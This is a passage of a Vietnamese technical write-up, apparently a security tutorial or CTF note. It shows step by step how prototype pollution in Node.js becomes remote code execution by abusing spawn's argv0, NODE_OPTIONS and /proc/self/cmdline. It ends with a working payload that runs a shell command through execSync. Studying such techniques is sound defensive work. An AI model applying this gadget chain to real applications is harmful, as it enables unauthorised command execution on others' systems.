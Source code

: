 ```js 
```
rce.js : 
```js 
const fs = require("fs");

const cmdline = fs.readFileSync("/proc/self/cmdline");
console.log(cmdline.toString().split("\0"));

```
Khi này ta sẽ thấy argv[0] tương đương với 'node'  :  
![image](https://hackmd.io/_uploads/H1byy0b_ee.png)
- Và điều đặc biệt là spawn function có hỗ trợ chức năng set argv[0] mà không làm thay đổi executable file . 
![image](https://hackmd.io/_uploads/By5WyR-Oxx.png)
```js 
const { spawn } = require("child_process");

const ls = spawn("node", ["rce.js"], {
    argv0: "abc",
    env: {
        ...process.env, // inherit parent env
    },
    stdio: "inherit"  // pipe output directly to parent terminal
});
```
![image](https://hackmd.io/_uploads/HJzVkCZdgg.png)
Kết hợp điều này với NODE_OPTIONS và /proc/self/cmdline ta có payload như sau  :+1: 
```js 
const { spawn } = require("child_process");

const ls = spawn("node", ["rce.js"], {
    argv0: "console.log(123);//",
    env: {
        ...process.env, // inherit parent env
        NODE_OPTIONS: "--require /proc/self/cmdline"
    },
    stdio: "inherit"  // pipe output directly to parent terminal
});
```
![image](https://hackmd.io/_uploads/S1hLy0bOxg.png)
- Cuối cùng kết hợp với prototype pollution thì ta sẽ dễ dàng có được rce . 
```js 
const { spawn } = require("child_process");

Object.prototype.env = {}; // dummy object
Object.prototype.env.NODE_OPTIONS = "--require /proc/self/cmdline"; // trigger loadJ
Object.prototype.argv0 = `require("child_process").execSync("id > pwn");//`;

spawn("node");
```
![image](https://hackmd.io/_uploads/SkbvVAZugg.png)
